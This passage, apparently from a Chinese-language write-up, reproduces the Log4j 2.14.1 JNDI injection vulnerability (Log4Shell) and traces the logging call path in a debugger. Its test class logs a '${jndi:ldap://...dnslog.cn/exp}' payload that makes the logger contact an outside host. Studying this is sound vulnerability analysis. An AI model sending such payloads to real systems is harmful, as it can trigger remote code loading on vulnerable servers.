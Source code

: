 因为在logIfEnabled方法中，对当前日志等级进行了一次判断，只有当**当前事件的日志等级**大于等于**设置的日志等级**时，才会符合条件，进入logIfEnabled方法，具体的整个代码流程我们来看以下部分。

## 环境搭建
1、创建一个新的maven项目，并导入Log4j的依赖包
```
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
```
2、漏洞代码
   log4j_rce.java
```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j_rce {
    private static final Logger logger = LogManager.getLogger(log4j_rce.class);
    public static void main(String[] args) {
        logger.error("${jndi:ldap://xxxxx.dnslog.cn/exp}");
    }
}
```

## 代码调试分析

在尝试理解一个漏洞时，我们可以只看一些关键的函数调用，让我们开始吧！

下断点，调试

![image](https://user-images.githubusercontent.com/84888757/162129881-ed7c9622-ff6c-4366-90a8-df6cc2fca322.png)

跟进，首先会调用`AbstractLogger.class`中的`error()`方法：

![image](https://user-images.githubusercontent.com/84888757/162129954-b6ff07fe-9797-4a5e-94d2-d2286685eb70.png)

在`error()`方法中会调用`logIfEnabled`判断是否符合日志记录的等级要求，如果符合，那么会进行`logMessage`操作：

![image](https://user-images.githubusercontent.com/84888757/162130135-2fb13eab-aa1d-4d28-9dce-ceed7eb851f6.png)

后续不关键调用路径如下：

```
logMessage ----> logMessageSafely ----> logMessageTrackRecursion ----> tryLogMessage ----> log ----> DefaultReliabilityStrategy.log ----> loggerConfig.log ----> processLogEvent ----> callAppenders ----> tryCallAppender ----> append ----> tryAppend ----> directEncodeEvent ----> encode ----> toText ----> toSerializable ---->format----> PatternFormatter.format
```

此时，我们看到了关键点 `format()` 
